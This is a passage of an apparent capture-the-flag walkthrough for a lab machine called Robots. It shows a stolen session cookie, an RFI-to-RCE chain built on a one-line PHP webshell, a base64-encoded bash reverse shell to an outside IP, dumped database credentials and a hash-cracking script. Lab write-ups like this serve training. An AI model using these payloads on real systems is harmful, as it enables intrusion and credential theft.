dF9tYXhfc2l6ZTwvdGQ+PHRkIGNsYXNzPSJ2Ij44TTwvdGQ+PHRkIGNsYXNzPSJ2Ij44TTwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+cHJlY2lzaW9uPC90ZD48dGQgY2xhc3M9InYiPjE0PC90ZD48dGQgY2xhc3M9InYiPjE0PC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5yZWFscGF0aF9jYWNoZV9zaXplPC90ZD48dGQgY2xhc3M9InYiPjQwOTZLPC90ZD48dGQgY2xhc3M9InYiPjQwOTZLPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5yZWFscGF0aF9jYWNoZV90dGw8L3RkPjx0ZCBjbGFzcz0idiI+MTIwPC90ZD48dGQgY2xhc3M9InYiPjEyMDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+cmVnaXN0ZXJfYXJnY19hcmd2PC90ZD48dGQgY2xhc3M9InYiPk9mZjwvdGQ+PHRkIGNsYXNzPSJ2Ij5PZmY8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPnJlcG9ydF9tZW1sZWFrczwvdGQ+PHRkIGNsYXNzPSJ2Ij
5PbjwvdGQ+PHRkIGNsYXNzPSJ2Ij5PbjwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+cmVwb3J0X3plbmRfZGVidWc8L3RkPjx0ZCBjbGFzcz0idiI+T2ZmPC90ZD48dGQgY2xhc3M9InYiPk9mZjwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+cmVxdWVzdF9vcmRlcjwvdGQ+PHRkIGNsYXNzPSJ2Ij5HUDwvdGQ+PHRkIGNsYXNzPSJ2Ij5HUDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+c2VuZG1haWxfZnJvbTwvdGQ+PHRkIGNsYXNzPSJ2Ij48aT5ubyB2YWx1ZTwvaT48L3RkPjx0ZCBjbGFzcz0idiI+PGk+bm8gdmFsdWU8L2k+PC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5zZW5kbWFpbF9wYXRoPC90ZD48dGQgY2xhc3M9InYiPi91c3Ivc2Jpbi9zZW5kbWFpbCAtdCAtaTwvdGQ+PHRkIGNsYXNzPSJ2Ij4vdXNyL3NiaW4vc2VuZG1haWwgLXQgLWk8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPnNlcmlhbGl6
ZV9wcmVjaXNpb248L3RkPjx0ZCBjbGFzcz0idiI+LTE8L3RkPjx0ZCBjbGFzcz0idiI+LTE8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPnNob3J0X29wZW5fdGFnPC90ZD48dGQgY2xhc3M9InYiPk9mZjwvdGQ+PHRkIGNsYXNzPSJ2Ij5PZmY8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPlNNVFA8L3RkPjx0ZCBjbGFzcz0idiI+bG9jYWxob3N0PC90ZD48dGQgY2xhc3M9InYiPmxvY2FsaG9zdDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+c210cF9wb3J0PC90ZD48dGQgY2xhc3M9InYiPjI1PC90ZD48dGQgY2xhc3M9InYiPjI1PC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5zeXNfdGVtcF9kaXI8L3RkPjx0ZCBjbGFzcz0idiI+PGk+bm8gdmFsdWU8L2k+PC90ZD48dGQgY2xhc3M9InYiPjxpPm5vIHZhbHVlPC9pPjwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+c3lzbG9nLmZhY2lsaXR5PC90ZD48dGQgY2
xhc3M9InYiPkxPR19VU0VSPC90ZD48dGQgY2xhc3M9InYiPkxPR19VU0VSPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5zeXNsb2cuZmlsdGVyPC90ZD48dGQgY2xhc3M9InYiPm5vLWN0cmw8L3RkPjx0ZCBjbGFzcz0idiI+bm8tY3RybDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+c3lzbG9nLmlkZW50PC90ZD48dGQgY2xhc3M9InYiPnBocDwvdGQ+PHRkIGNsYXNzPSJ2Ij5waHA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPnVuc2VyaWFsaXplX2NhbGxiYWNrX2Z1bmM8L3RkPjx0ZCBjbGFzcz0idiI+PGk+bm8gdmFsdWU8L2k+PC90ZD48dGQgY2xhc3M9InYiPjxpPm5vIHZhbHVlPC9pPjwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+dXBsb2FkX21heF9maWxlc2l6ZTwvdGQ+PHRkIGNsYXNzPSJ2Ij4yTTwvdGQ+PHRkIGNsYXNzPSJ2Ij4yTTwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+dXBsb2FkX3Rt
cF9kaXI8L3RkPjx0ZCBjbGFzcz0idiI+PGk+bm8gdmFsdWU8L2k+PC90ZD48dGQgY2xhc3M9InYiPjxpPm5vIHZhbHVlPC9pPjwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+dXNlcl9kaXI8L3RkPjx0ZCBjbGFzcz0idiI+PGk+bm8gdmFsdWU8L2k+PC90ZD48dGQgY2xhc3M9InYiPjxpPm5vIHZhbHVlPC9pPjwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+dXNlcl9pbmkuY2FjaGVfdHRsPC90ZD48dGQgY2xhc3M9InYiPjMwMDwvdGQ+PHRkIGNsYXNzPSJ2Ij4zMDA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPnVzZXJfaW5pLmZpbGVuYW1lPC90ZD48dGQgY2xhc3M9InYiPi51c2VyLmluaTwvdGQ+PHRkIGNsYXNzPSJ2Ij4udXNlci5pbmk8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPnZhcmlhYmxlc19vcmRlcjwvdGQ+PHRkIGNsYXNzPSJ2Ij5HUENTPC90ZD48dGQgY2xhc3M9InYiPkdQQ1M8L3RkPjwvdHI+Cj
x0cj48dGQgY2xhc3M9ImUiPnhtbHJwY19lcnJvcl9udW1iZXI8L3RkPjx0ZCBjbGFzcz0idiI+MDwvdGQ+PHRkIGNsYXNzPSJ2Ij4wPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj54bWxycGNfZXJyb3JzPC90ZD48dGQgY2xhc3M9InYiPk9mZjwvdGQ+PHRkIGNsYXNzPSJ2Ij5PZmY8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPnplbmQuYXNzZXJ0aW9uczwvdGQ+PHRkIGNsYXNzPSJ2Ij4tMTwvdGQ+PHRkIGNsYXNzPSJ2Ij4tMTwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+emVuZC5kZXRlY3RfdW5pY29kZTwvdGQ+PHRkIGNsYXNzPSJ2Ij5PbjwvdGQ+PHRkIGNsYXNzPSJ2Ij5PbjwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+emVuZC5lbmFibGVfZ2M8L3RkPjx0ZCBjbGFzcz0idiI+T248L3RkPjx0ZCBjbGFzcz0idiI+T248L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPnplbmQuZXhjZXB0aW9uX2lnbm9y
ZV9hcmdzPC90ZD48dGQgY2xhc3M9InYiPk9uPC90ZD48dGQgY2xhc3M9InYiPk9uPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj56ZW5kLmV4Y2VwdGlvbl9zdHJpbmdfcGFyYW1fbWF4X2xlbjwvdGQ+PHRkIGNsYXNzPSJ2Ij4wPC90ZD48dGQgY2xhc3M9InYiPjA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPnplbmQubWF4X2FsbG93ZWRfc3RhY2tfc2l6ZTwvdGQ+PHRkIGNsYXNzPSJ2Ij4wPC90ZD48dGQgY2xhc3M9InYiPjA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPnplbmQubXVsdGlieXRlPC90ZD48dGQgY2xhc3M9InYiPk9mZjwvdGQ+PHRkIGNsYXNzPSJ2Ij5PZmY8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPnplbmQucmVzZXJ2ZWRfc3RhY2tfc2l6ZTwvdGQ+PHRkIGNsYXNzPSJ2Ij4wPC90ZD48dGQgY2xhc3M9InYiPjA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPnplbmQuc2NyaXB0X2VuY2
9kaW5nPC90ZD48dGQgY2xhc3M9InYiPjxpPm5vIHZhbHVlPC9pPjwvdGQ+PHRkIGNsYXNzPSJ2Ij48aT5ubyB2YWx1ZTwvaT48L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPnplbmQuc2lnbmFsX2NoZWNrPC90ZD48dGQgY2xhc3M9InYiPk9mZjwvdGQ+PHRkIGNsYXNzPSJ2Ij5PZmY8L3RkPjwvdHI+CjwvdGFibGU+CjxoMj48YSBuYW1lPSJtb2R1bGVfY3R5cGUiIGhyZWY9IiNtb2R1bGVfY3R5cGUiPmN0eXBlPC9hPjwvaDI+Cjx0YWJsZT4KPHRyPjx0ZCBjbGFzcz0iZSI+Y3R5cGUgZnVuY3Rpb25zIDwvdGQ+PHRkIGNsYXNzPSJ2Ij5lbmFibGVkIDwvdGQ+PC90cj4KPC90YWJsZT4KPGgyPjxhIG5hbWU9Im1vZHVsZV9jdXJsIiBocmVmPSIjbW9kdWxlX2N1cmwiPmN1cmw8L2E+PC9oMj4KPHRhYmxlPgo8dHI+PHRkIGNsYXNzPSJlIj5jVVJMIHN1cHBvcnQgPC90ZD48dGQgY2xhc3M9InYiPmVuYWJsZWQgPC90ZD48L3RyPgo8
dHI+PHRkIGNsYXNzPSJlIj5jVVJMIEluZm9ybWF0aW9uIDwvdGQ+PHRkIGNsYXNzPSJ2Ij43Ljg4LjEgPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5BZ2UgPC90ZD48dGQgY2xhc3M9InYiPjEwIDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+RmVhdHVyZXMgPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5Bc3luY2hETlMgPC90ZD48dGQgY2xhc3M9InYiPlllcyA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPkNoYXJDb252IDwvdGQ+PHRkIGNsYXNzPSJ2Ij5ObyA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPkRlYnVnIDwvdGQ+PHRkIGNsYXNzPSJ2Ij5ObyA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPkdTUy1OZWdvdGlhdGUgPC90ZD48dGQgY2xhc3M9InYiPk5vIDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+SUROIDwvdGQ+PHRkIGNsYXNzPSJ2Ij5ZZXMgPC90ZD48L3RyPgo8dHI+PHRkIG
NsYXNzPSJlIj5JUHY2IDwvdGQ+PHRkIGNsYXNzPSJ2Ij5ZZXMgPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5rcmI0IDwvdGQ+PHRkIGNsYXNzPSJ2Ij5ObyA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPkxhcmdlZmlsZSA8L3RkPjx0ZCBjbGFzcz0idiI+WWVzIDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+bGlieiA8L3RkPjx0ZCBjbGFzcz0idiI+WWVzIDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+TlRMTSA8L3RkPjx0ZCBjbGFzcz0idiI+WWVzIDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+TlRMTVdCIDwvdGQ+PHRkIGNsYXNzPSJ2Ij5ZZXMgPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5TUE5FR08gPC90ZD48dGQgY2xhc3M9InYiPlllcyA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPlNTTCA8L3RkPjx0ZCBjbGFzcz0idiI+WWVzIDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+
U1NQSSA8L3RkPjx0ZCBjbGFzcz0idiI+Tm8gPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5UTFMtU1JQIDwvdGQ+PHRkIGNsYXNzPSJ2Ij5ZZXMgPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5IVFRQMiA8L3RkPjx0ZCBjbGFzcz0idiI+WWVzIDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+R1NTQVBJIDwvdGQ+PHRkIGNsYXNzPSJ2Ij5ZZXMgPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5LRVJCRVJPUzUgPC90ZD48dGQgY2xhc3M9InYiPlllcyA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPlVOSVhfU09DS0VUUyA8L3RkPjx0ZCBjbGFzcz0idiI+WWVzIDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+UFNMIDwvdGQ+PHRkIGNsYXNzPSJ2Ij5ZZXMgPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5IVFRQU19QUk9YWSA8L3RkPjx0ZCBjbGFzcz0idiI+WWVzIDwvdGQ+PC90cj4KPHRyPjx0ZCBjbG
Fzcz0iZSI+TVVMVElfU1NMIDwvdGQ+PHRkIGNsYXNzPSJ2Ij5ObyA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPkJST1RMSSA8L3RkPjx0ZCBjbGFzcz0idiI+WWVzIDwvdGQ+PC90cj4KPHRyPjx0ZCBjbGFzcz0iZSI+QUxUU1ZDIDwvdGQ+PHRkIGNsYXNzPSJ2Ij5ZZXMgPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5IVFRQMyA8L3RkPjx0ZCBjbGFzcz0idiI+Tm8gPC90ZD48L3RyPgo8dHI+PHRkIGNsYXNzPSJlIj5VTklDT0RFIDwvdGQ+PHRkIGNsYXNzPSJ2Ij5ObyA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPlpTVEQgPC90ZD48dGQgY2xhc3M9InYiPlllcyA8L3RkPjwvdHI+Cjx0cj48dGQgY2xhc3M9ImUiPkhTVFMg
```

After decoding, I've found the session cookie:
```bash
PHPSESSID=d6ijed6ku62agqtfn1ke58fjre
```

we are admin!



### RFI to RCE on admin panel

Now, we can fuzz the endpoints, and find `admin.php`:
```bash
┌──(agonen㉿kali)-[~/thm/Robots]
└─$ ffuf -u "http://robots.thm/harm/to/self/FUZZ" -w /usr/share/SecLists/Discovery/Web-Content/common.txt -fc 403 -H 'Cookie: PHPSESSID=d6ijed6ku62agqtfn1ke58fjre' 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://robots.thm/harm/to/self/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Header           : Cookie: PHPSESSID=d6ijed6ku62agqtfn1ke58fjre
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

admin.php               [Status: 200, Size: 370, Words: 29, Lines: 28, Duration: 160ms]
css                     [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 156ms]
index.php               [Status: 200, Size: 662, Words: 99, Lines: 35, Duration: 163ms]
:: Progress: [4750/4750] :: Job [1/1] :: 201 req/sec :: Duration: [0:00:19] :: Errors: 0 ::
```

I went to `http://robots.thm/harm/to/self/admin.php`, with the session cookie we got.



We can see it executes the php function `include`


So, I created the webshell, and setup the python http server on port 8081:
```bash
echo '<?php echo `$_GET[0]` ?>' > webshell.php
```

and got the rce:



Next, I pasted the payload from `penelope`:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xNjQuMjQ4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash
```
and got the reverse shell:



### Brute force the password of rgiskard obtained from the mysql db to get shell as rgiskard

First, we can see the file `config.php`:
```bash
www-data@robots:/var/www/html/harm/to/self$ cat config.php 
<?php
    $servername = "db";
    $username = "robots";
    $password = "q4qCz1OflKvKwK4S";
    $dbname = "web";
// Get the current hostname
$currentHostname = $_SERVER['HTTP_HOST'];

// Define the desired hostname
$desiredHostname = 'robots.thm';

// Check if the current hostname does not match the desired hostname
if ($currentHostname !== $desiredHostname) {
    // Redirect to the desired hostname
    header("Location: http://$desiredHostname" . $_SERVER['REQUEST_URI']);
    exit();
}
ini_set('session.cookie_httponly', 1);

session_start();

?>
```

There are some credentials.

Second, I saw we are inside docker container:
```bash
www-data@robots:/tmp$ cat /etc/hosts
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.18.0.3      robots.thm robots
```

as you can see, there is another ip on the local network `172.18.0.3`.

I used `rustscan` to find open ports, first download to the machine:



Then, execute:
```bash
./rustscan -a 172.18.0.3
```



There are 4 opened ports:
```bash
Open 172.18.0.3:80
Open 172.18.0.3:40676
Open 172.18.0.3:53630
Open 172.18.0.3:55042
```

However, none of them seems interesting for now.
So, I returned to the mysql config we have, and followed the php code from `login.php` to dump users table:
```php
<?php

$servername = "db";
$username = "robots";
$password = "q4qCz1OflKvKwK4S";
$dbname = "web";

                                                                                                                                                 
                                                                                                                                                 
$dsn="mysql:host=$servername;dbname=$dbname;charset=utf8mb4";                                                                                    
                                                                                                                                                 
$options = [                                                                                                                                     
    PDO::ATTR_ERRMODE            => PDO::ERRMODE_EXCEPTION,                                                                                      
    PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC,                                                                                            
    PDO::ATTR_EMULATE_PREPARES   => true,                                                                                                        
          ];                                                                                                                                     
                                                                                                                                                 
$pdo = new PDO($dsn, $username, $password, $options);                                                                                            
                                                                                                                                                                                                                                                                                                  
$stmt = $pdo->prepare('SELECT * from users');
$stmt->execute();

$result = $stmt->fetchAll(); 

var_dump($result);
                                     
?>
```

We'll use the script above, we got this:



The passwords here are after md5 hash. 
```json
[0]=>                                                                                                                                          
  array(4) {                                                                                                                                     
    ["id"]=>                                                                                                                                     
    int(1)                                                                                                                                       
    ["username"]=>                                                                                                                               
    string(5) "admin"                                                                                                                            
    ["password"]=>                                                                                                                               
    string(32) "3e3d6c2d540d49b1a11cf74ac5a37233"                                                                                                
    ["group"]=>                                                                                                                                  
    string(5) "admin"                                                                                                                            
  }                                                                                                                                              
  [1]=>                                                                                                                                          
  array(4) {                                                                                                                                     
    ["id"]=>                                                                                                                                     
    int(2)                                                                                                                                       
    ["username"]=>                                                                                                                               
    string(8) "rgiskard"                                                                                                                         
    ["password"]=>                                                                                                                               
    string(32) "dfb35334bf2a1338fa40e5fbb4ae4753"                                                                                                
    ["group"]=>                                                                                                                                  
    string(7) "nologin"                                                                                                                          
  }
```

Since I know the pattern of the initial passwords, I wrote quick script to crack the password:
```py
import hashlib

target = "dfb35334bf2a1338fa40e5fbb4ae4753"
username = 'rgiskard'

for i in range(10000):
    pwd = f"{username}{i:04d}"
    h = hashlib.md5(pwd.encode()).hexdigest()
    h = hashlib.md5(h.encode()).hexdigest()
    if h == target:
        print("FOUND:", pwd)
        break

``` 

and, we find `rgiskard2209`.



The md5 hash of this password is `b246f21ff68cae9503ed6d18edd32dae`, let's use it to trying login to `rgiskard` using ssh:
```bash
ssh rgiskard@robots.thm
```

